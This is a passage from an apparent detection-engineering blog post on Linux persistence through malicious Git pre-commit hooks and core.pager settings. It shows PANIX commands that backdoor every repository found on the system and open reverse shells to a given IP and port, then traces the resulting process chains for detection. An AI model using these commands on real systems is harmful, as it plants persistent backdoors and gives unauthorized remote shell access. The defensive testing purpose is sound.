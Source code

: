 A typical configuration where a pager is specified might look like this:

```
[core]
    pager = less
```

In this example, Git is configured to use less as the pager. When a user runs a command like `git log`, Git will pipe the output through less for easier viewing. The flexibility in specifying a pager can be exploited. For example, an attacker can set the pager to a command that executes arbitrary code. This can be done by modifying the `core.pager` configuration to include malicious commands. Let’s take a look at the two techniques discussed in this section. 

### Persistence through T1546 - Git

To test these techniques, the system requires a cloned Git repository. There is no point in setting up a custom repository, as the persistence mechanism depends on user actions, making a hidden and unused Git repository an illogical construct. You could initialize your own hidden repository and chain it together with a `cron`/`systemd`/`udev` persistence mechanism to initialize the repository on set intervals, but that is out of scope for now.

To test the Git Hook technique, ensure a Git repository is available on the system, and run:

```
> ./panix.sh --git --default --ip 192.168.1.1 --port 2014 --hook
```

`> [+] Created malicious pre-commit hook in /home/ruben/panix`

The program loops through the entire filesystem (as far as this is possible, based on permissions), finds all of the repositories, and backdoors them. To trigger the backdoor, run `git add -A` and `git commit -m "backdoored!"`. This will generate the following events:

![Events generated as a result of the Git Hook persistence establishment](/assets/images/sequel-on-persistence-mechanisms/image3.png "Events generated as a result of the Git Hook persistence establishment")

In this figure we see PANIX looking for Git repositories, adding a `pre-commit` hook and granting it execution permissions, successfully planting the backdoor. Next, the backdoor is initiated through the `git commit`, and the `git` → `pre-commit` → `nohup` → `setsid` → `bash` reverse shell connection is initiated.

To test the Git pager technique, ensure a Git repository is available on the system and run: 

```
> ./panix.sh --git --default --ip 192.168.1.1 --port 2015 --pager
> [+] Updated existing Git config with malicious pager in /home/ruben/panix
> [+] Updated existing global Git config with malicious pager 
```

To trigger the payload, move into the backdoored repository and run a command such as `git log`. This will trigger the following events:

![Events generated as a result of the Git Pager persistence establishment](/assets/images/sequel-on-persistence-mechanisms/image15.png "Events generated as a result of the Git Pager persistence establishment")

PANIX executes and starts searching for Git repositories. Once found, the configuration files are updated or created, and the backdoor is planted. Invoking the Git Pager (`less`) executes the backdoor, setting up the `git` → `sh` → `nohup` → `setsid` → `bash` reverse connection chain. 

We have several layers of detection, covering the Git Hook/Pager persistence techniques.

